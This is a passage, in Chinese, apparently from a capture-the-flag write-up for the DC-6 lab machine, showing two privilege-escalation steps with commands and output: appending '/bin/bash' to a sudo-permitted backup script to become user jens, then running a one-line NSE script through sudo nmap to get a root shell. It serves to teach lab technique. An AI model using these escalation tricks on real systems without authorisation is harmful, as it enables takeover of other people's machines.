 jens所有者和devs所属组有rwx权限

接着，切换到graham用户

```
graham@dc-6:~$ id                                
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```

发现graham用户就是devs组的，并且可以不要密码执行`/home/jens/backups.sh`这个脚本

尝试提权到jens用户

```
echo '/bin/bash'>>backups.sh
```

以jens的身份进行执行

```
sudo -u jens /home/jens/backups.sh
```

这样就得到jens的shell

接着

```shell
jens@dc-6:~$ id
id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
jens@dc-6:~$ sudo -l
sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```

jens用户可以使用nmap，nmap进行提权

```
echo 'os.execute("/bin/bash")' > a.nse
```

```
sudo nmap --script=a.nse
```

提权成功，

